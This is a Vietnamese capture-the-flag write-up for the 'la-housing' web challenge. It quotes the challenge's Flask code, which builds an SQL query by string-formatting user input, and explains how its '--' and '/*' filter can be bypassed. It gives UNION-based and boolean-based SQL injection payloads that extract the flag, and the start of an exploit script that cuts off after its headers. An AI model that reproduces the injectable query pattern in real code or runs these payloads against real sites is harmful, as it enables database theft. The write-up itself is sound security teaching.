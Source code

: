 ```py
    
    
    for k, v in list(data.items()):
        if v == 'na':
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")
        
    name = data.pop("name")

    
    roommates = get_matching_roommates(data)
    return render_template("results.html", users = roommates, name=name)
    

def get_matching_roommates(prefs: dict[str, str]):
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r
```

- Tuyến `/submit` lấy dữ liệu nhập từ POST của người dùng và thực hiện một số hàm xác thực, họi `get_matching_roommate` và hiển thị templaet `results.html`
- Hàm `search_roommates`: lấy dữ liệu nhập từ reuqets. Xác thực độ dài dữ liệu và kiểm tra khả năng chèn SQL injection sử dụng `--` và `/*`. Gọi hàm `get_matching_roommates` sau khi đã filter dữ liệu để query vào database.
- Hàm `get_matching_roommates` kết nối tới database và chèn các dữ liệu từ người dùng vào `WHERE` để truy vấn

Có thể thấy ngăn ứng dụng dính SQL injection trong hàm `get_matching_roommates`. Việc filter có hiệu quả nhưng không cao vì vẫn cho phép sử dụng ký tự `'`. 

Payload: `awake=' UNION SELECT 1,2,3,4,5,flag FROM flag WHERE ''='`

Hoặc làm theo hướng boolean-based , kết hợp thêm điều kiện `AND` nữa để kiểm tra từng ký tự của flag. `awake=8-10am\'AND substr((select flag from flag),1,1)=\'l`

## Script
```
import requests
import threading

url = 'https://la-housing.chall.lac.tf/submit'

headers = {
    'Host': 'la-housing.chall.lac.tf',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'https://la-housing.chall.lac.tf',
    'Referer': 'https://la-housing.chall.lac.tf/',
}

```